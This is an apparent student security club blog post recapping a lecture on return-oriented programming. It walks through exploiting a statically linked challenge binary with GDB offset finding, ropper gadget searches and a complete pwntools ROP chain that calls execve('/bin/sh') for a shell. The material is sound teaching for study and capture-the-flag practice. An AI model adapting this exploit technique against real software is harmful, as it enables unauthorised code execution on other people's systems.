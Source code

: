 ```yaml
---
title: "Introduction to ROP Chain Attacks"
date: 2021-11-11T12:40:28+01:00
draft: true
author: "***REMOVED***"
description: "An introductory session modern binary exploitation techniques"
tags: ["pwn", "rop", "ret2libc"]
categories: ["Academic Year 2021-22"]
---
```


This week was the last of Ben's 4 week binary exploitation introductory series. It introduced the concept of Return Oriented Programming, demonstrated 2 methods of ROP exploitation on dynamic and statically linked binaries, and explained how some protections can be bypassed. The presentation slides can be downloaded [here](./presentation.pdf). We won't go into great detail into the theory of ROP, as it is covered in the presentation, but we will quickly recap on a high level.

Return Oriented Programming is a modern binary exploitation method designed to overcome the NX Stack compiler protection. It involves chaining together short series' of machine code instructions called *gadgets*. Using these gadgets, and a buffer overflow, we can redirect program flow and potentially gain code execution.  

## Demonstration 1: Classic ROP

The first demonstration covers what I call 'classic ROP'. It is the method of using ROP to achieve code execution without the use of external libraries. The first challenge binary is a statically linked.

```bash
> file challenge
challenge: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

It's not a very interesting program. It prints text to stdout, takes an input, prints something else, then exits.

```bash
> ./challenge
ROP me!
foobar
Bad luck. Exiting
```

Let's use GDB to find the offset to the return pointer, same as we did in the Stack Smashing exercises.

```py
pwndbg> cyclic 200 -n=8
pwndbg> r
pwndbg> x/xg $rsp
0x7fffffffd878: 0x6161616f61616161
pwndbg> cyclic -l 0x6161616f61616161 -n=8
108
```

We have an offset of 108, remember we can check this by sending a payload of 108 byte of junk data followed by a fake address such as `0xdeadbeef`. If 0xdeadbeef is in the RIP when the process SegFaults then we are correct.

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./challenge")
context.binary = elf
rop = ROP(elf)

#context.log_level = "debug"

p = process([elf.path])

offset = 108

p.sendlineafter(b"ROP me!", flat({offset: pack(0xdeadbeef)}))

p.interactive()
```

Running the program and attaching to GDB in the same way as last week, we see that 0xdeadbeef is in the RIP.

![0xdeadbeef inside the RIP at SegFault](images/ss1.png)

To exploit this program, we need to build an exploit that essentially does `execve("/bin/sh", 0, 0)` like our shellcode would although we need to use gadgets rather than shellcode due to the fact that NX Stack is enabled on the binary. PIE is not enabled meaning we can search for gadgets and hard code their addresses, as their location will not change at runtime.

Remembering x86_64 calling conventions, we need the string `/bin/sh` in RDI, and 0 in RSI and RDX. We also need a gadget for RAX and a syscall.  Let's use Ropper to find the gadgets for this. 

```py
> ropper --file challenge --search "pop rdi"
[...]
0x000000000040106d: pop rdi; ret;
> ropper --file challenge --search "pop rsi"
[...]
0x0000000000401073: pop rsi; mov rdi, rsi; ret;
> ropper --file challenge --search "pop rdx"
[...]
0x0000000000401078: pop rdx; ret;
> ropper --file challenge --search "pop rax"
[...]
0x0000000000401017: pop rax; syscall;
```

There are convenient gadgets for all operations we want to do, so we can build a ROP chain using the ROP module of pwntools. We should use the `pop rsi; mov rdi, rsi; ret;` gadget first as it will clobber any data in RDI.

We also need the string `/bin/sh`. Thankfully it already exists in the binary. If this were not the case our ROP chain would need to write `/bin/sh` into memory before trying to execve.

```py
pwndbg> search /bin/sh
challenge       0x40201c 0x68732f6e69622f /* '/bin/sh' */
```

We can now finish our script.

```py
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge", checksec=False)
context.binary = elf
rop = ROP(elf)

#context.log_level = "debug"

p = process([elf.path])

# 59 execve	const char *filename const char *const *argv const char *const *envp 	
offset = 108

pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
pop_rax_syscall = rop.find_gadget(["pop rax", "syscall"])[0]
pop_rsi_mov_rdi_rsi = 0x0000000000401073
binsh = next(elf.search(b"/bin/sh"))
pop_rdx = rop.find_gadget(["pop rdx", "ret"])[0]
pop_rax = 0x000000000040107a

rop.raw(pop_rsi_mov_rdi_rsi)
rop.raw(p64(0))
rop.raw(pop_rdi)
rop.raw(binsh)
rop.raw(pop_rdx)
rop.raw(p64(0))
rop.raw(pop_rax_syscall)
rop.raw(p64(59))

p.sendlineafter(b"ROP me!", flat({offset: rop.chain()}))

p.interactive()
```

The exploit works. This shows how we can use the native instructions present in a program to create our own malicious exploit code.

![Shell from Classic ROP](images/ss2.png)

